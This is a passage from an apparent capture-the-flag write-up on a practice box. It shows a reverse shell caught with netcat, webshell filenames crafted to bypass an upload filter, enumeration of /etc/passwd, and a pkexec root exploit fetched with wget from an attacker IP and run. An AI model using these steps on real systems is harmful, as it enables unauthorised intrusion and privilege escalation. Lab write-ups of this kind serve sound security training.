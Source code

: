 Caught the shell with `nc -nlvp 4444` and transformed it to a pseudo-interactive TTY in Python.

```
www-data@ubuntu:/var/www/html/sparklays/design/uploads$ whoami
www-data

www-data@ubuntu:/var/www/html/sparklays/design/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This is what happens if you don’t disable URL encoding with Intruder XDDD.

```
www-data@ubuntu:/var/www/html/sparklays/design/uploads$ ls | grep "%2e"

webshell%2epgif
webshell%2ephp%00%2egif
webshell%2ephp%00%2ejpg
webshell%2ephp%00%2epng
webshell%2ephp%5cx00%2egif
webshell%2ephp%5cx00%2ejpg
webshell%2ephp%5cx00%2epng
webshell%2ephp5
```

# Lateral Movement

We aren’t alone on the box.

```
www-data@ubuntu:/home$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
dave:x:1001:1001:,,,:/home/dave:/bin/bash
```

We could achieve root privileges by exploit pkexec, but I ain’t doing that. Note from the future: So naive…

```
www-data@ubuntu:/home/dave$ pkexec --version
pkexec version 0.105

www-data@ubuntu:/home/dave$ cd /tmp
www-data@ubuntu:/tmp$ wget 10.10.14.5/poc

www-data@ubuntu:/tmp$ chmod +x poc
www-data@ubuntu:/tmp$ ./poc 

# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# exit
```
